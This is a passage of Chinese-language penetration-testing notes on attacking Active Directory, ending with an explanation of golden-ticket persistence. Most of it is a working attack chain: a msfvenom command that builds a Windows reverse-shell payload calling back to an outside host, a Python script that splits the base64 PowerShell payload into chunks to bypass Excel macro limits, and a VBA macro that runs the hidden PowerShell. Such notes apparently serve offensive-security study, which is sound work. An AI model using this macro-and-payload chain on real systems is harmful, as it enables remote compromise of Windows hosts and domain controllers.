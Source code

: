 ![image-20200604205155196](assets/12.AD进攻.assets/image-20200604205155196.png)

POC完成。

现在制作真正的payload用来利用

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

接下来，我们提取以“ powershell.exe -nop -w hidden -e”开头的行，然后是Base64编码的有效负载，并使下面的简单Python脚本将命令拆分为较小的块，从而绕过了Excel的宏限制

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
    print "Str = Str + " + '"' + str[i:i+n] + '"'
```

现在，我们将更新Excel宏以执行PowerShell（而非记事本），并重复操作以将其上传到域控制器并执行

```vbscript
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

设置监听，得到shell

## AD的持久化

我们可以在AD环境中使用传统的持久性方法，但也可以获取特定于AD的持久性。请注意，在许多现实世界的渗透测试或红队参与中，持久性不属于范围，因为一旦评估完成，则存在不完全清除的风险

### 金票

回顾Kerberos身份验证的概念解释，我们回想起当用户提交TGT请求时，KDC用域中KDC已知的密钥对TGT进行加密。这个秘密密钥实际上是我们称之为`krbtgt`的域用户帐户的密码哈希，如果我们能够使用krbtgt密码哈希，则可以创建自己自定义的TGT或黄金票证，例如，我们可以创建一个TGT来声明非特权用户实际上是Domain Admins组的成员，并且域控制器将对其信任，因为它已正确加密

这提供了一种在Active Directory环境中保持持久性的巧妙方法，但是最大的好处是不会自动更改krbtgt帐户密码。实际上，仅在域功能级别从Windows 2003升级到Windows 2008时这个密码才被更改过。因此，找到非常古老的krbtgt密码哈希并不少见
